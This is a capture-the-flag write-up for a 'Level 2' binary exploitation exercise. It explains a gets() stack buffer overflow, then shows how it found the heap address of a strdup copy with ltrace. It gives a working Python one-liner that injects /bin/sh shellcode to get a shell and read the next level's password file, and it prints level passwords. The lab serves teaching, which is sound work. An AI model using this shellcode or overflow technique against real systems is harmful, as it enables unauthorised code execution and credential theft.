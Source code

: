 # Level 2

```bash
su level2 # 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

## Steps

We see a `gets` getting called with a buffer of `0x4c` size. The input length is not checked with this function, and an overflow can easily occur.

To get the **size of the overflow**, we can:
- use a *pattern generator*
- calculate the *offset from the buffer*: `0x4c` (buffer len) + `4` (push EBP).

The binary doesn't have a shell code. So we have to provide it to him.
- We could call the **buffer** of `gets`, but there is a check later leading to an `exit` if the given address if in the stack (`0bx`).
- We could write the code inside a environment variable, but same story the checks makes an exit.
- We see in the program that the buffer is later copied inside a `strdup`. This function internally calls for `malloc` which store memory in an other section: the **heap**.

We can thank to this copy a **shellcode** inside the heap, and call its address since its not randomised.


```bash
$ ltrace ./level2
> blabla
...
strdup("blabla") = 0x0804a008
...

$ printf "%x" 134520840
0804A008
```

We can do the injection:

```bash
$ python -c "print '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + 59 * 'X' + '\x08\x04\xa0\x08'[::-1]" > /tmp/2
$ cat /tmp/2 - | ./level2

$ cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

